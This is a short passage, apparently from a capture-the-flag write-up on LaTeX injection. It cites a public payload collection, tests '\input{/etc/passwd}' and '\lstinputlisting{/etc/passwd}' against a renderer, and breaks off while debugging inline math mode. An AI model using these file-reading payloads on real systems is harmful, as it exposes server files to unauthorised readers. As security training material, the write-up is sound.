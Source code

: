 - Searching for payload examples in **PayloadAllTheThings**:
  - [PayloadsAllTheThings - LaTeX Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LaTeX%20Injection/README.md)

### Testing Payloads:

- First Payload
```latex
\input{/etc/passwd}
```
![first payload](images/fail_payload.png)



- Second Payload
```latex
\lstinputlisting{/etc/passwd}
```
![second payload](images/second_payload.png)


### Issue Debugging
- Reading the description I found something relevant:
![inline math](images/inline_math.png)
### So I did a search on what that means: